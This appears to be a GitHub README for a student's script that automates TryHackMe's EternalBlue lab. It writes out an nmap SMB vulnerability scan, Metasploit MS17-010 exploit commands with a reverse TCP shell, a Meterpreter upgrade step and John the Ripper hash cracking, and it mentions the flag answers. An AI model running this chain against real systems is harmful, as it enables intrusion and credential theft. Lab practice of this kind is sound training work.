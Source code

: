 # 🔐 EternalBlue Lab Automation Script – TryHackMe

> 🧠 **For Educational Use Only**  
> Automates the EternalBlue exploitation lab on TryHackMe including scanning, exploiting MS17-010, and capturing flags.

---

## 📁 Features

- 📖 **Lab Description** with detailed background on EternalBlue
- 📋 **Checklist** to keep track of key lab tasks
- 🔌 **VPN Connection Setup** with `.ovpn` file
- ⚔️ **Metasploit-based Exploitation** using EternalBlue
- 🧠 **Post-Exploitation Commands** for Meterpreter shell
- 🔐 **Password Hash Cracking** with John the Ripper
- 🏁 **Flag Discovery** with hints and answers

---

## 🚀 How to Use

```bash
git clone https://github.com/yourname/eternalblue-lab
cd eternalblue-lab
chmod +x eternalblue-lab.sh
dos2unix eternalblue-lab.sh
./eternalblue-lab.sh
![image](https://github.com/user-attachments/assets/629d4b56-7600-4449-ae83-1089e8fe180e)

🧪 Menu Options
Option	Description
1️⃣	View Lab Description
2️⃣	View Task Checklist
3️⃣	Connect to VPN Only (.ovpn file required)
4️⃣	Start Full Exploitation Lab
5️⃣	View Questions and Answers for THM tasks
6️⃣	Exit

🛠️ Tools Used
Nmap – Port scanning and vulnerability detection

Metasploit – Exploitation of MS17-010 (EternalBlue)

John the Ripper – Cracking NTLM hashes

OpenVPN – VPN connection to TryHackMe network

nmap -p 445 --script smb-vuln* <TARGET_IP>

# Metasploit
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <TARGET_IP>
set LHOST <YOUR_IP>
set PAYLOAD windows/x64/shell/reverse_tcp
exploit -j

# Post Exploitation
use post/multi/manage/shell_to_meterpreter
set SESSION <session_id>
exploit -j

# Cracking Passwords
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
🎯 Learning Objectives
✅ Understand EternalBlue and MS17-010
✅ Identify vulnerable SMB services
✅ Exploit Windows targets with Metasploit
✅ Practice real-world post-exploitation
✅ Learn ethical hacking techniques responsibly

⚠️ Disclaimer
This script is strictly for educational purposes.
Do NOT scan, exploit, or access unauthorized systems.
Always follow legal and ethical guidelines.

👨‍💻 Author
Kuntal Bera
Cybersecurity Student | Ethical Hacking Enthusiast

⭐ Give it a Star!
If you found this useful, consider starring the repository ❤️

bash
Copy
Edit
⭐ github.com/yourname/eternalblue-lab
